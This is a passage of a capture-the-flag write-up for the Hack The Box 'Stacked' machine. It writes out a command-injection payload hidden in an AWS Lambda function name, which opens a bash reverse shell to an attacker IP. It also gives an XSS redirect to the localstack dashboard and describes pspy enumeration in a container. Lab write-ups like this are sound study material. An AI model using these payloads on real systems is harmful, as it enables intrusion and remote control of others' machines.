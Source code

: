 ![Screenshot from 2022-03-22 13-05-35](https://user-images.githubusercontent.com/79413473/159430515-283f7580-687f-4f15-b1d4-a87f530e4c09.png)

Let's render received HTML in body

![Screenshot from 2022-03-22 13-07-10](https://user-images.githubusercontent.com/79413473/159430764-c68184b6-d665-490a-b250-2c0004921ad0.png)

In mail it listed to AWS instance at **s3-testing.stacked.htb** , we will add that to our hosts file. And it has the same response which we saw on our local instance confirming localstack is running here

![Screenshot from 2022-03-22 13-09-03](https://user-images.githubusercontent.com/79413473/159431195-8af37436-3dac-4681-b9ca-26a31e591992.png)

other way you can confirm localstack is running by using xss, making request to 127.0.0.1:4566 then saving the response and sending back it you. That will reveal same thing that localstack is running but for the sack of length of blog i am not gonna show that.

As we got a way to interact with instance we can create lambda function also it says that only node application is supported, 
*I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances*, but that doesn't matter as we have to just create a lambda function with command injection and redirect the user to localstack dashboard to execute that.

I will use same python script and upload same function.zip i used on local instance.

#### Creating Lambda Funciton with reverse shell
```
aws --endpoint-url http://s3-testing.stacked.htb lambda create-function --function-name "test;bash -c 'bash -i >& /dev/tcp/IP/8089 0>&1'" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex
```
![Screenshot from 2022-03-22 13-30-12](https://user-images.githubusercontent.com/79413473/159434422-73b13571-2d0e-46ee-af48-b54530d26e5b.png)


#### Redirecting user to localstack dashboard with xss.

**document.location.href='http://127.0.0.1:8080'**

![Screenshot from 2022-03-22 13-22-52](https://user-images.githubusercontent.com/79413473/159433242-7373b414-674f-4c0c-b1ba-a05d4a2f664f.png)

As soon as victim's dashboard loads, we get reverse shell after few minutes as localstack user in container

![Screenshot from 2022-03-22 13-24-08](https://user-images.githubusercontent.com/79413473/159433460-6a837441-cf9f-433f-8dcf-3e4addc051bb.png)

From **/home/localstack** we can read user flag. And also upgraded to proper shell using python pty.

## Getting root in docker : Command injection

Now enumeration was key here specially what happens in container when we create & invoke lambda fucntions. Let's upload [pspy](https://github.com/DominicBreuker/pspy) and monitor processes.

Execute pspy and in other pane create a lambda function and invoke it. 

```
aws --endpoint-url http://s3-testing.stacked.htb lambda create-function --function-name "testx" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex --handler "test"
```
this unzip the archive 
![Screenshot from 2022-03-22 15-17-27](https://user-images.githubusercontent.com/79413473/159452984-d629276c-aa84-4742-ba92-0f575a759405.png)

